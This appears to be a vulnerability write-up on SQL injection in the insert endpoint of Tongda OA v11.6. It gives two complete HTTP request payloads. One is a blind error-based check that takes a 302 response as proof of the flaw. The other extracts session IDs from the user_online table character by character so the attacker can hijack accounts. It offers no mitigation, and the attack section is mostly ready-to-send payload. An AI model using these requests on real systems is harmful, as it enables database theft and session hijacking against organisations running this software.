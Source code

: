 # Tongda OA v11.6 insert SQL injection vulnerability

## Vulnerability Description

Tongda OA v11.6 insert parameter contains SQL injection vulnerability, and attackers can obtain database sensitive information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v11.6 </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628303165911-5ee90d8c-903a-46d7-a373-ab9b04bdb173.png)

Send request packet judgment vulnerability

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr(MOD(5,2),1,1))<128,1,710)))# =1&_SERVER=
```

Returning 302 means there is a vulnerability, return 500 means there is no

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628303346227-1737a449-b413-4475-83b3-0190c946fa7c.png)

After confirming that there is a vulnerability, obtain SessionID through SQL injection and further attack

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 122
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/0,1),8,1))<66,1,710)))# =1&_SERVER=
```

